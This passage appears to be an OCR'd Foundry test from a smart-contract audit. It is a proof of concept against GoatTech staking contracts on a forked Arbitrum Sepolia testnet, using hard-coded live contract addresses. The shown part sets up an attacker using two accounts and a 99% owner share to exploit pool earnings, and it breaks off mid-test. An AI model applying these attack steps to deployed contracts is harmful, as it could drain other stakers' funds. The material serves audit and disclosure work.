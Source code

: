  contract Fork is Test { // GoatTech Contracts Controller controller; Profile profile; Locker locker; UseAccessControl useAccessControl; Earning earning; DCT goat; Locker goatLocker; DToken Dp2pDToken; DToken trustScoreToken; PoolFactory poolFactory; EthSharing ethSharing; 

 // Setup users address Whale = 0xD8Ea779b8FFC1096CA422D40588C4c0641709890; 

 address Alice = 0x71B61c2E250AFa05dFc36304D6c91501bE0965D8; address Eve = 0xb2248390842d3C4aCF1D8A893954Afc0EAc586e5; address John = 0x0F7F6B308B5111EB4a86D44Dc90394b53A3aCe13; address John2ndAccount = 0x4c968f6bEecf1906710b08e8B472b8Ba6E75F957; 

 uint256 fork; 

 function setUp() public { // Set up forked environment for Arbitrum Sepolia fork = vm.createFork(\"https://public.stackup.sh/api/v1/node/arbitrum-sepolia\"); 

 // These addresses are the live GoatTech Contracts on Arbitrum Sepolia controller = Controller(payable(address(0xB4E5f0B2885F09Fd5a078D86E94E5D2E4b8530a7))); profile = Profile(0x7c25C3EDd4576B78b4F8aa1128320AE3d7204bEc); locker = Locker(0x0265850FE8A0615260a1008e1C1Df01DB394E74a); useAccessControl = UseAccessControl(0x588CF1494C5aC93796134E5e1827F58D2a8A9cDB); earning = Earning(0xf7a08a0728C583075852Be8B67E47DceB5c71d48); goat = DCT(0x5Bfe38c9f309AED44DAa035abf69C80786355136); goatLocker = Locker(0x1033d5f886aef22fFADebf5f8c34088030Bb80f3); Dp2pDToken = DToken(0x72835409B8B49d83D8A710e67c906aE313D22860); trustScoreToken = DToken(0x8B64439A617bB1e85F83b97EA779eDEf49b9DCb2); poolFactory = PoolFactory(0x8E0cAeE3d94d5497744e2DB30Eec2D222739dF6D); ethSharing = EthSharing(0xe8330EcE50934EaC7457A712f9079d7775B04c9a); 

 } 

 function test__ReInvesthenWithdrawPoC() public { 
  

 vm.selectFork(fork); 

 // John creates his own account and stakes a lot of eth vm.startPrank(John); controller.ethStake{value: 100 ether}(payable(John), 720 days, 1000, 2000300, 1, 0); 

 // John sets up his second account's pool by staking a small amount into it vm.startPrank(John2ndAccount); controller.ethStake{value: 0.002 ether}(payable(John2ndAccount), 30 days, 1000, 2000300, 1, 0); 

 // John changes the owner% of John2ndAccount to 99% ethSharing.configPool(9999, 0); 

 // He gets other users to stake like Alice and Eve vm.startPrank(Alice); controller.ethStake{value: 100 ether}(payable(John), 720 days, 1000, 2000300, 1, 0); 

 vm.startPrank(Eve); controller.ethStake{value: 100 ether}(payable(John), 720 days, 1000, 2000300, 1, 0); 

 // check john's trust score before withdrawing earnings IPoolFactory.SPool memory JohnsPoolsBefore = poolFactory.getPool(John); uint256 johnsTrustScoreBeforeWithdrawingEarnings = ,→ trustScoreToken.balanceOf(JohnsPoolsBefore.dctDistributor); 
